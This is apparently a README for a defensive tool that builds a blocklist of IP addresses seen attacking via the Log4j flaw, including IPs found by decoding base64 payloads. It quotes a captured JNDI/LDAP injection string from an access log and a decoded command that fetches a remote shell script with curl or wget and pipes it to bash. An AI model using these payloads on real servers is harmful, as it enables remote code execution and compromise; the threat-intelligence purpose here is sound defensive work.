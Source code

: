 # Log4j-ips

Scraping a few sources to create one huge list.  
Also decoding base64 payloads to find new ips.  
Added RFC1918 filtration

So from a log like this:
```
:access.log:45.137.21.9 - - [11/Dec/2021:03:22:00 +0100] "POST / HTTP/1.1" 200 50 0 "-" "${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCAtcSAtTy0gaHR0cDovLzYyLjIxMC4xMzAuMjUwL2xoLnNofGJhc2g=}"
```

My Script/Scraper will add:  
45.137.21.9  
92.242.40.21  

The 92.242.40.21 IP Comes from decoding the Base64 payload.  

```
echo "KGN1cmwgLXMgOTIuMjQyLjQwLjIxL2xoLnNofHx3Z2V0IC1xIC1PLSA5Mi4yNDIuNDAuMjEvbGguc2gpfGJhc2g=" | base64 -d
(curl -s 92.242.40.21/lh.sh||wget -q -O- 92.242.40.21/lh.sh)|bash

```
